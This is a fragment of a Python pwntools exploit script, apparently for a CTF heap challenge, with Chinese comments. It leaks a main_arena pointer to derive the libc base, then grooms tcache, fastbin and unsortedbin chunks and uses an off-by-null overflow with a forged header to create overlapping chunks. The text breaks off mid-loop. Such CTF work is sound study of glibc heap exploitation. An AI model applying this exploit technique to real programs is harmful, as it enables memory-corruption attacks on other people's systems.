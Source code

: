 ```Python
p.recvuntil("Content: ")
main_arean_208 = u64(p.recv(6).ljust(8,'\x00'))
log.info("main_arean_208:"+hex(main_arean_208))
libc_base = main_arean_208 - 208 - (0x7ffff7dcdc40-0x7ffff79e2000)
log.info("libc_base:"+hex(libc_base))

# off by null 构造重叠区域

# 构造0x110(0x70+0x60+0x30)的unsortedbin
# unlink时会将0x110后面堆修改为：prev_size=0x110;prev_inuse=0;
for i in list(range(7)):
    delete(i)
delete(7)#0x68

for i in range(7):
    add(i,0x58)
for i in list(range(7)):
    delete(i)
delete(8)#0x58

for i in list(range(7)):
    add(i,0x20)
for i in list(range(7)):
    delete(i)
edit(9,"QAQ.QVQ."*2+p64(0x100)+p64(0x10))#伪造一个header，用来向前（低地址）合并造成堆重叠

delete(9)#0x20

p.sendlineafter("choice: ",'1'*0x7000)#fastbin 2 unsortedbin

#off by null将0x110覆盖为0x100
add(11,0x78)#head:用于off by null溢出修改size(0x110->0x100)
edit(11,'a'*0x78)


#0x110后面布置一个堆块，用于unlink造成堆重叠
for i in range(6):
    add(i,0x58)
add(12,0x58)#tail:unlink

for i in range(6):#清空堆指针列表，方便后续操作
    delete(i)

#将0x100切分分配出来0x78+0x58+0x10
for i in range(6):
    add(i,0x78)
add(8,0x78)
for i in range(6):
    delete(i)
for i in range(6):
    add(i,0x58)
add(9,0x58)
for i in range(6):
    delete(i)
add(10,0x10)

#然后将 0x78+0x58 放回到 unsortedbin ，释放 0x110 后面的堆块就会向前合并，即 unsortedbin 里面变成 0x110 + 0x110 后面的堆 size 。
for i in range(7):
    add(i,0x78)
for i in range(7):
    delete(i)
delete(8)#fastbin
for i in range(7):
```